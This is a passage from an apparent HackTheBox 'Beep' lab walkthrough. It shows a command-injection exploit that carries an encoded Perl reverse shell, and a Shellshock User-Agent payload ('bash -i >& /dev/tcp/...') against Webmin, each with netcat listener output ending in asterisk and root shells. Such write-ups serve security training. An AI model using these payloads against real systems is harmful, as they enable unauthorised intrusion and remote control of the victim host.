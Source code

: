 I was drop some `sys.argv` and query the url with firefox.

The number of extension is "233"

[IppSec HackTheBox Beep](https://www.youtube.com/watch?v=XJmBpOd__N8)

```
┌──(Hades㉿10.10.14.5)-[2.2:50.5]~/walkthrough/hackthebox/beep
└─$ python3 18650.py 10.10.10.7 10.10.14.5 443
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.2:50.6]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 47806
id
uid=100(asterisk) gid=101(asterisk)
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ 
```

### Webmin Shellshock

Webmin using `session_login.cgi`, it can be exploit using shellshock payload.

Payload:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'`

![](images/8.png)

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 40293
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]#
```
